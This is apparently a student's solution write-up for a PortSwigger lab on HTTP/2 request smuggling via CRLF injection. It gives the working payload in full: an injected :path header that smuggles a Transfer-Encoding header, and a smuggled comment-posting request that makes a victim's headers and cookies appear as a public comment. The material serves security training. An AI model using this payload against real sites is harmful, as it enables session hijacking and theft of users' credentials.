

# [Lab: HTTP/2 request smuggling via CRLF injection](https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-request-smuggling-via-crlf-injection)

## Lab

This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests and fails to adequately sanitize incoming headers.

To solve the lab, use an HTTP/2-exclusive request smuggling vector to gain access to another user's account. The victim accesses the home page every 15 seconds.

If you're not familiar with Burp's exclusive features for HTTP/2 testing, please refer to the documentation for details on how to use them.

## Detected H2.TE

- burpsuite active scan: detected hidden http 2
- burpsuite `HTTP request smuggler` extension: detected `HTTP/2 TE desync v10a h2path`

## Attack

we use request smuggling to induce victim to post comment with the content is the victim's HTTP headers (H2.TE):

- header `:path`:

```http
/ HTTP/1.1^M$
Transfer-Encoding: chunked^M$
x: x
```

- body

```http
0^M$
^M$
POST /post/comment HTTP/1.1^M$
Host: 0a5d00a10347796bc1a91c5a00be00bf.web-security-academy.net^M$
Cookie: session=cX2N19Lqf8CSrmP5oWvVGYP4EVPAHNZe;^M$
Content-Type: application/x-www-form-urlencoded^M$
Content-Length: 808^M$
^M$
csrf=token&postId=3&name=test&email=test%40test.test&website=&comment=
```

wait for about 20 seconds without sending any requests, then go to the comments section:


